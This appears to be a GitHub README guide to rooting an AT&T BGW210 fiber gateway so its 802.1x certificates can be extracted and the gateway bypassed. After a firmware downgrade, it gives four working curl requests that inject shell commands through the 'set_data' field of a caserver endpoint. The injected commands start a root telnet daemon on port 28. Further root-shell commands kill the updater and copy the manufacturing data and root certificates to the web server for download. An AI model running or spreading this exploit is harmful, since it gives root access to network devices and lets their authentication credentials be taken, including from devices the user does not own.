 # BypassAttRG

This method works to rip the 802.1x keys from BGW210.

<!-- **Background**: I switched to AT&T fiber and I hate AT&T's residential gateways -->


## Menu
- [Prerequisites](#prerequisites)
- [Extract Certificates](#extract-certificates)
- [Configuring 802.1x authentication](#configuring-8021x-authentication)
- [Miscellaneous](#miscellaneous)
- [Credits & References](#credits--references)

  
## Prerequisites
- [Python 3](https://www.python.org/downloads/release/python-373/) for the local http server. There are many alternatives(e.g. [mobaxterm](https://mobaxterm.mobatek.net/)).
- Basic knowledge of POSIX commands (cd, mkdir, wget, etc.).
- A BGW210

[Back to menu](#menu)
## Extract Certificates
The certificates extracted from both NVG589 and BGW210 work fine from my tests.

### BGW210

# Downgrade

Download the signed 1.0.29 firmware, then go to http://192.168.1.254

Click Diagnostics, then Update.

You'll select 1.0.29.

Give the gateway 3 minutes to restart since it's a POS.

## Ripping Certs

Once downgraded, go to http://192.168.1.254/cgi-bin/ipalloc.ha , type your device access code to login, and assign a static IP to your PC that you'll be executing the CURL commands from.

I assigned my PC: 192.168.1.70 since that's what the RG's DHCP-Server had assigned it.

Once you assign a static IP,  refresh your PC's local ip address. using ifconfig, or ipconfig if on windows (cmd prompt: ipconfig /release and then ipconfig /renew). You may ignore this step if you assigned the same IPv4 it received by the DHCP-Server.

Once that's done, open http://192.168.1.254/cgi-bin/ipalloc.ha and authenticate again if it asks.

Once you authenticate, run these CURL commands (remember to navigate to cURL, see my video for help.

(tech has no password when prompted)

  ```
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| echo 28telnet stream tcp nowait root /usr/sbin/telnetd -i -l /bin/nsh > /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -a /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -s|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| reboot|" -v --http1.1 https://192.168.1.254:49955/caserver
  ```
 
The AT&T RG (BGW210) will reboot after the final command, and you'll be able to telnet on port 28 as admin w/ device access code as the password once it reboots. 

(Use Putty if using a Windows PC)
 
Once you're logged in via telnet, type ! and press enter to elevate to a root sh terminal

Now, type top and let the telnet terminal populate with the running processes of the RG.

Once the top command displays all of the running process, look for a process labelled:   
  ```
/usr/bin/udpsvd -E 0 69 tftpd /lib/firmware
  ```
Press CTRL + C to break out of the top command.

Type kill PID_number_of_udpsvd; 
For example: kill 1048 (in the video I mistook the other four digit number for the PIV by mistake initially, then corrected myself).

This kills the auto update script so that you can make changes, or copy your 802.11x certificates without the ATT firmware automatically updating when you aren't ready for it. Not really as important if you don't have the RG connected to the ONT (I didn't in the video).

#### Extract Certificates
- In BGW210, run the following commands in order. Make sure you are in root shell. Reminder - Type `!`. It switches to root shell.
  ```
  mount -o remount,rw /dev/ubi0 /  
  mount mtd:mfg -t jffs2 /mfg
  cp /mfg/mfg.dat /www/att/mfg.dat
  mount mtd:mfg -t jffs2 /mfg
  Download: http://192.168.1.254/mfg.dat
  
  ## Next:
  
  cd /tmp
  tar cf cert.tar /etc/rootcert/
  cp cert.tar /www/att/images
  Download: http://192.168.1.254/images/cert.tar
  ```
- Reminder: Download http://192.168.1.254/mfg.dat and http://192.168.1.254/images/cert.tar to your **local** device.


[Back to menu](#menu)
## Configuring 802.1x authentication
### Decode Credentials 
Credit: [devicelocksmith](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html)

- Download decoder v1.0.4: [win](decoder/win/mfg_dat_decode_1_04.zip), [linux](decoder/linux/mfg_dat_decode_1_04.tar.gz), [mac](decoder/mac/mfg_dat_decode_1_04_macosx.zip)
  - [Original download page](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html)
- Copy *mfg.dat*, unzip *cert.tar* to the same location as *mfg_dat_decode*.
- Run *mfg_dat_decode*. You should get a file like this: *EAP-TLS_8021x_XXXX*.

## Miscellaneous

### Compile Entware packages from source
Some useful links
- [Compile-packages-from-sources](https://github.com/Entware/Entware/wiki/Compile-packages-from-sources)
- [Compile-custom-programs-from-source](https://github.com/RMerl/asuswrt-merlin/wiki/Compile-custom-programs-from-source)

[Back to menu](#menu)
## Credits & References
- [devicelocksmith](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html): EAP-TLS credentials decoder and the method to extract */mfg/mfg.dat*
- [earlz](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui): Rooting The NVG510 from the WebUI
- [nomotion](https://www.nomotion.net/blog/sharknatto/): NVG589 root exploit
- [dslreports.com](https://www.dslreports.com/forum/uverse): A great forum with many useful information.
- [jsolo1@dslreports.com](https://www.dslreports.com/profile/422016): Provides many helpful & useful suggestions.
- [Streiw](https://www.reddit.com/r/ATT/comments/g59rwm/bgw210700_root_exploitbypass/): Creator of BGW210 Pastebin guide and discover of exploit and main hero of BGW210 root.

[Back to menu](#menu)
